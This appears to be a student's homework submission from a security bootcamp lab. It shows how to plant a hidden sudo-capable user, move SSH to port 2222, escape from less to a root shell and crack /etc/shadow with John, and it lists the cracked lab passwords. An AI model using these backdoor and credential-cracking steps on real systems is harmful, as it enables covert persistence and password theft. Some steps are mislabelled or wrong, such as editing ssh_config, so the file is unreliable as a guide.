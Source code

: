 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    sudo useradd sysd

2. Give your secret user a password: 
    sudo passwd sysd (passw0rd)

3. Give your secret user a system UID < 1000:
    sudo usermod -u 123 sysd

4. Give your secret user the same GID:
   sudo groupmod -g 123 sysd

5. Give your secret user full `sudo` access without the need for a password:
   sudo usermod -aG sudo sysd
   visudo
   sysd ALL=(ALL) NOPASSWD:ALL
6. Test that `sudo` access works without your password:
su sysd
sudo -l
sudo apt update

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

sudo nano /etc/ssh/ssh_config
port 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    sudo systemctl reload ssh

2. Exit the `root` account:
    sudo su

3. SSH to the target machine using your `sysd` account and port `2222`:
    ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    sudo less /etc/profile
	!/bin/sh
	john /etc/shadow
	
	passwords:
	trustno1 (mitnik)
	dragon (lovelace)
	lakers (turing)
	passw0rd (sysadmin)
	passw0rd (sysd)
	Goodluck! (student)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

